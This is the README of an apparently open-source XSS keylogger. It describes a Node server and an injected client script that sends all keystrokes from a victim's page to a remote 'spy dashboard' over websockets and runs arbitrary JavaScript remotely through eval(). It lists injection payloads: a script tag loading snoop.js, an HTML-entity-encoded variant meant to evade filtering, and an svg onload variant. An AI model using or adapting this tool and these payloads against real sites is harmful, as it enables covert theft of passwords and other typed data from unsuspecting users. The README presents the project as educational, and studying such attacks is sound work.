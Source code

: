 # xss-keylogger
A simple keystroke logger that listens and sends all keystrokes for a user on a Cross-site scripting (XSS) vulnerable 
page to a remote dashboard page via [websockets][1].

## Introduction
The XSS Keylogger project comes with a Node server and a client side script. The client side script is typically
injected in a web page viewed by other users. The client side script connects using a persistent websocket
connection to the Node server that then relays information received from the client to a remote monitoring dashboard.

The remote monitoring dashboard is also able to send a JavaScript snippet that is run remotely on a XSS exploited
web page that is being visited by an unsuspected user by piping it through [`eval()`][2].

## Motivation
This project was created for XSS educational purposes and to raise awareness on how such a vulnerability can be
exploited.

**Important:** This solution should not be used for any malicious or illegal purposes.

## Setup
Install `npm`, the Node package manager, using the [Homebrew][3] package manager (or using any other means of getting
`npm` installed. Once installed, run `npm install` to resolve and install project related dependencies.

```
brew install npm
npm install
```

## Running
1. Run `node index.js` to start up the Node server. The server will run on port `:3000` by default.
2. Visit `http://localhost:3000/monitor.html` to view the spy dashboard that logs all remote keystrokes
3. Visit `http://localhost:3000/innocent.html` to view a sample web page that has been exploited with the XSS
   keystroke logger client script. Any text typed on the input fields of this page will immediately be made
   visible in the remote spy dashboard.
4. Type and send JavaScript snippet to run in the context of the remote client from the spy dashboard. Some tame
   example remote client snippets:

```
// Show a popup remotely
alert("You've been Sn00ped!");

// Change background of client page to pink
document.body.style.background = 'pink';
```

## Embedding Client Side script

```
// Embed and execute client side script by using a script tag if it is allowed in XSS vulnerable web page
<script src="http://localhost:3000/snoop.js"></script>

// Encode special tags to HTML code to bypass sites with simple inadequate encoding of special tags only
&#060;script src="http://localhost:3000/snoop.js"&#062;&#060;/script&#062;
```

Some sites will prevent any `<script>` tags to be embedded or posted in their input fields. In that case, you
could try to embed and run xss-keylogger client side script as part of the `onload` attribute of an `svg` element.
```
<svg onload="http://localhost:3000/snoop.js" />
```

## Features

### Keystroke Logging

### Running Remote JavaScript

[1]: http://dev.w3.org/html5/websockets
[2]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval
[3]: http://brew.sh